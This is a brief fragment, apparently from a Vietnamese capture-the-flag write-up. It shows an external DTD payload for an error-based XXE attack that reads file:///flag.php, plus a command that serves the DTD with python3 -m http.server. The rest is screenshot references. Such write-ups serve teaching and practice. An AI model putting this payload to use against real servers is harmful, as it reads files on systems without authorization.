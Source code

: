 Trong file xxe.dtd:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```zsh
python3 -m http.server
```


![](images/23.png)

![](images/22.png)
